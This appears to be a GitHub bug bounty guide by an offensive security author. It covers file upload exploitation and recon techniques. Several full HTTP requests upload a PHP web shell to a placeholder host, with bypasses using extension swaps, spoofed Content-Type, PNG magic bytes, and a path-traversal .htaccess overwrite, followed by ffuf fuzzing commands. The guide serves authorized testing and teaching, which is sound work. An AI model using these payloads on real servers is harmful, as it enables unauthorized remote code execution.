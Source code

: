 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2. **Exploiting simple file upload vulnerabilities**
   *   No restrictions

       ```http
       POST /Api/FileUpload.aspx HTTP/2
       Host: console.example.com
       User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
       Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
       Accept: */*

       ------WebKitFormBoundary3RwPFJztxaJvrqAq
       Content-Disposition: form-data; name="file"; filename="shell.php"
       Content-Type: application/x-php

       <?php echo system($_GET['e']); ?>
       ------WebKitFormBoundary3RwPFJztxaJvrqAq--
       ```
   * Bypassing client-side restrictions
     *   HTML "accept" attribute

         ```html
         <input type="file" accept=".jpg, .jpeg, .png, .gif" />
         ```
     * using proxy interceptors
   *   Bypassing a file extension blacklist

       <p align="center"><img src="file-upload-vuln1.png" alt="Bypass file extension exclusion lists" data-size="original"><br><sub><strong>Bypass file extension exclusion lists</strong></sub></p>
   *   Bypassing a file extension whitelist

       <p align="center"><img src="file-upload-vuln2.png" alt="Bypass file extension inclusion lists" data-size="original"><br><sub><strong>Bypass file extension inclusion lists</strong></sub></p>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3.  **Exploiting advanced file upload vulnerabilities**

    * Bypassing content type restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: image/png

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    *   Magic bytes

        * These are the magic bytes for a normal image (PNG) in HEX:

        ```sh
        89 50 4E 47 0D 0A 1A 0A
        ```



        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="shell.php"
        Content-Type: application/x-php

        ‰PNG␍␊␚␊
        <?php echo system($_GET['e']); ?>
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

        <p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>
    *   Overwriting server configuration files

        * .htaccess

        ```http
        POST /Api/FileUpload.aspx HTTP/2
        Host: console.example.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
        Accept: */*

        ------WebKitFormBoundary3RwPFJztxaJvrqAq
        Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
        Content-Type: text/plain

        # Your server configuraton rules
        ------WebKitFormBoundary3RwPFJztxaJvrqAq--
        ```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)

